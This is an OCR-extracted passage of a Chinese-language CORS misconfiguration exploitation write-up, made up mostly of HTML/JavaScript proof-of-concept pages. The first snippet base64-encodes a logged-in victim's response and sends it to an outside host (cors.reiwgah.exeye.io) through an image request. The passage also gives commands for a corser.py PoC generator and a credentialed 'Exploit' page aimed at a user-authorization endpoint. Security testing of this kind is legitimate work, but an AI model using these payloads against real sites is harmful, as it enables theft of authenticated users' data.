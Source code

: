 ```html
                success: function (result) {
                    new Image().src="http://cors.reiwgah.exeye.io/" + window.btoa(unescape(encodeURIComponent(JSON.stringify(result))))
                    //alert(JSON.stringify(result));
                }
            };
            $("#btn1").click(function () 
                {
                    $.ajax(options);
                });
            });
        </script>

    <input type="button" id="btn1" value="发送一个CORS请求并获取返回结果"/>

</body>
</html>
```

**使用github脚本**

> python corser.py -poc GET
>
> python corser.py -poc POST

使用此代码攻击者可以通过接收响应的“日志”处理程序从易受攻击的域名窃取数据。
当受害者在目标应用程序“vulnerability.domain”上进行身份验证时访问包含该页面的页面在前面的代码中浏览器将以下请求发送到“**vulnerability.domain**”

```html 
<!DOCTYPE html
<html>
<head>
<script>
        function cors() {
                var xhttp = new XMLHttpRequest();
                var params = '{"appAccount":"","positionCode":"","cn":"","companyCode":"","state":"","pageNumber":1,"pageSize":15,"pageCode":"qx01"}';
                xhttp.onreadystatechange = function() {
                        if (this.readyState == 4 && this.status == 200){
                                document.getElementById("demo").innerHTML = alert(this.responseText);
                        }
                };
                xhttp.open("POST", "http://www.pxc.local/master/userAuth/list", true);
                xhttp.setRequestHeader('Content-type', 'application/json;charset=UTF-8');
                xhttp.setRequestHeader('X-Requested-With', 'XMLHttpRequest');
                xhttp.setRequestHeader('CSRF', 'Token');
                xhttp.setRequestHeader('Accept', '');
                xhttp.setRequestHeader('X-AUTH-TOKEN', 'X-AUTH-TOKEN');
                xhttp.setRequestHeader('X-AUTH-UID', 'X-AUTH-UID');
                xhttp.withCredentials = true;
                xhttp.send(params);
        }
</script>
</head>
<body>
<center>
<h2>CORS POC</h2>
<h3>Extract Information</h3>
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
</body>
</html>
```
